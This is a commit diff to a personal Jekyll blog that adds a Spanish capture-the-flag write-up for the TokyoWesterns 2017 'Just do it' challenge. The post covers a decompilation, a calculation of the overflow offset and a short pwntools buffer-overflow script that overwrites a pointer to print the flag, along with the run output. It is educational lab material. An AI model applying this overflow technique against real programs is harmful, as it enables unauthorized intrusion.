

Before and after one commit to 0xH3rshel/0xH3rshel.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the top 1394 px of the window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
just do it

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -9,7 +9,7 @@ name: 0xH3rshel
 author: 0xH3rshel
 
 # Short bio or description (displayed in the header)
-description: My blog
+description: 0xH3rshel's blog
 
 # URL of your avatar or profile pic (you could use your GitHub profile pic)
 avatar: "/imgs/magic_g.jpg"
--- /dev/null
+++ b/_posts/2023-09-26-just_do_it-nightmare.md
@@ -0,0 +1,150 @@
+---
+layout: post
+title: Just do it - Nightmare
+tags: [ctf, rev, nightmare]
+---
+
+**Just do it** \\
+TokyoWesterns 2017 ctf
+
+
+## Análisis
+
+**pwn checksec**:
+```
+Arch:     i386-32-little
+    RELRO:    Partial RELRO
+    Stack:    No canary found
+    NX:       NX enabled
+    PIE:      No PIE (0x8048000)
+```
+
+"PIE: No PIE (0x8048000)" indica que el ejecutable no es un ejecutable independiente de posición y se cargará en la dirección base fija "0x8048000". Esto es importante para el análisis de seguridad ya que se mantendrán las direcciones entre ejecuciones.
+
+## Ghidra
+
+```c
+undefined4 main(void)
+
+{
+  char *input_ptr;
+  int cmp_pass;
+  char usrInput [16];
+  FILE *file_ptr;
+  char *result_message;
+  undefined *local_c;
+
+  local_c = &stack0x00000004;
+  setvbuf(stdin,(char *)0x0,2,0);
+  setvbuf(stdout,(char *)0x0,2,0);
+  setvbuf(stderr,(char *)0x0,2,0);
+  result_message = failed_message;
+  file_ptr = fopen("flag.txt","r");
+  if (file_ptr == (FILE *)0x0) {
+    perror("file open error.\n");
+    exit(0);
+  }
+  input_ptr = fgets(flag,0x30,file_ptr);
+  if (input_ptr == (char *)0x0) {
+    perror("file read error.\n");
+    exit(0);
+  }
+  puts("Welcome my secret service. Do you know the password?");
+  puts("Input the password.");
+  input_ptr = fgets(usrInput,0x20,stdin);
+  if (input_ptr == (char *)0x0) {
+    perror("input error.\n");
+    exit(0);
+  }
+  cmp_pass = strcmp(usrInput,PASSWORD);
+  if (cmp_pass == 0) {
+    result_message = success_message;
+  }
+  puts(result_message);
+  return 0;
+}
+```
+El codigo realiza lo siguiente:
+1. Abre un archivo llamado "flag.txt" en modo de lectura.
+2. Lee una cadena de texto desde el archivo "flag.txt" y la almacena en la variable flag.
+3. Pide al usuario que ingrese una contraseña a través de la entrada estándar.
+4. Compara la contraseña ingresada por el usuario (usrInput) con una contraseña almacenada en la variable PASSWORD.
+5. Dependiendo de si la contraseña ingresada coincide con la contraseña almacenada en PASSWORD, se establece el mensaje de resultado en success_message o failed_message.
+6. Imprime el mensaje de resultado en la salida estándar.
+7. El programa retorna 0 al finalizar, lo que indica que se ejecutó sin errores.
+
+Son los puntos 3 y 6 los que nos permitiran resolver el desafío ya que mediante un bufferoverflow se puede sobreescribir el puntero "result_message" para que apunte a la cadena "flag" y lo imprima al final del programa.
+
+## Exploit
+
+Lo primero que necesito es saber la posición de memoria en la que se almacenará la bandera al leerla del archivo "flag.txt".
+```
+[0x080485bb]> is
+[...]
+74  0x000005bb 0x080485bb GLOBAL FUNC   337      main
+76  ---------- 0x0804a040 GLOBAL OBJ    0        __TMC_END__
+78  ---------- 0x0804a080 GLOBAL OBJ    48       flag
+79  0x00001034 0x0804a034 GLOBAL OBJ    4        success_message
+80  0x000003f8 0x080483f8 GLOBAL FUNC   0        _init
+81  0x0000103c 0x0804a03c GLOBAL OBJ    4        PASSWORD
+[...]
+```
+
+Se guardará en la dirección **0x0804a080**.
+
+A continuación, utilizo **radare2** para calcular la distancia entre la entrada del usuario y "result_message".
+
+```
+┌ 337: int main (char **argv);
+│           ; var int32_t usrInput @ ebp-0x20
+│           ; var int32_t file_ptr @ ebp-0x10
+│           ; var int32_t result_message @ ebp-0xc
+│           ; var int32_t var_4h @ ebp-0x4
+│           ; arg char **argv @ esp+0x54
+│           0x080485bb      8d4c2404       lea ecx, [argv]
+│           0x080485bf      83e4f0         and esp, 0xfffffff0
+│           0x080485c2      ff71fc         push dword [ecx - 4]
+│           0x080485c5      55             push ebp
+│           0x080485c6      89e5           mov ebp, esp
+│           0x080485c8      51             push ecx
+│           0x080485c9      83ec24         sub esp, 0x24
+│           0x080485cc      a160a00408     mov eax, dword [obj.stdin]
+```
+
+Calculo la diferencia
+
+```
+    0x20
+  -  0xc
+----------
+    0x14
+```
+
+### Script
+
+Conociendo la dirección de memoria a sobreescribir y el padding, hacer el script es muy sencillo.
+
+```py
+from pwn import *
+
+# Iniciar el proceso
+target = process('just_do_it')
+
+# Crear payload
+payload = b"A" * 0x14 # Padding
+payload += p32(0x0804a080) # obj.flag dirección
+
+# Enviar el payload
+target.sendline(payload)
+
+target.interactive()
+```
+
+```
+h3rshel@kali:~/Desktop/reversing$ python3 exploit.py
+Welcome my secret service. Do you know the password?
+Input the password.
+TWCTF{pwnable_warmup_I_did_it!}
+```
+
+Página original: **[Nightmare](https://guyinatuxedo.github.io/)**.
````
